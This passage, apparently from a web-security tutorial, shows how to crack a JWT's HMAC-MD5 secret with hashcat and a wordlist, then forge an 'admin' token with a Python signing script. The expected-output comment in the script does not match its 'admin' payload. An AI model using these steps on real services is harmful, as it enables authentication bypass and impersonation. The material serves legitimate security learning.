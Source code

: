 Finally, we have all the parts we need, and can write out the hash in the way hashcat expects:

```
<signature>:<data>
c8a700eb6a5527c3e28fb49a8f313c9f:eyJhbGciOiAiTUQ1X0hNQUMifQ.eyJ1c2VybmFtZSI6ICJqMHIxYW4ifQ
```

Then we simply use the raw HMAC-MD5 (`-m 50`) mode in hashcat to crack the secret like before:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ hashcat -m 50 hash2.txt /list/rockyou.txt
</strong>...
c8a700eb6a5527c3e28fb49a8f313c9f:eyJhbGciOiA...IxYW4ifQ:secret
</code></pre>

### Manually Forging

When we have a secret key, we can try to forge new data with it by implementing the algorithm in a simple script. There are many easy libraries that do most of the work already, so it is simply a matter of understanding the required steps. For JWTs:

1. First the `header` and `payload` JSON data is encoded into a string, and are separately Base64 encoded, which are then joined together by `.` period
2. An HMAC signature is made by putting the data from step 1 in the data argument, and the secret in the key argument, selecting the correct hash function (MD5, SHA256, etc.)
3. This resulting signature is Base64 encoded and appended together with a `.` in front to the header and payload value from step 1, which becomes the resulting JWT

Putting this into code, it looks something like this:

{% code title="Python" %}
```renpy
import hmac
from base64 import urlsafe_b64encode
import json

KEY = b"secret"
HASH = "md5"

header = {
  "alg": "MD5_HMAC"
}
payload = {
  "username": "admin"
}

headers_enc = urlsafe_b64encode(json.dumps(header).encode()).decode().strip("=")
payload_enc = urlsafe_b64encode(json.dumps(payload).encode()).decode().strip("=")

data = f"{headers_enc}.{payload_enc}"
signature = urlsafe_b64encode(hmac.new(KEY, data.encode(), digestmod=HASH).digest()).decode().strip("=")

print(f"{data}.{signature}")
# eyJhbGciOiAiTUQ1X0hNQUMifQ.eyJ1c2VybmFtZSI6ICJqMHIxYW4ifQ.yKcA62pVJ8Pij7SajzE8nw
```
{% endcode %}

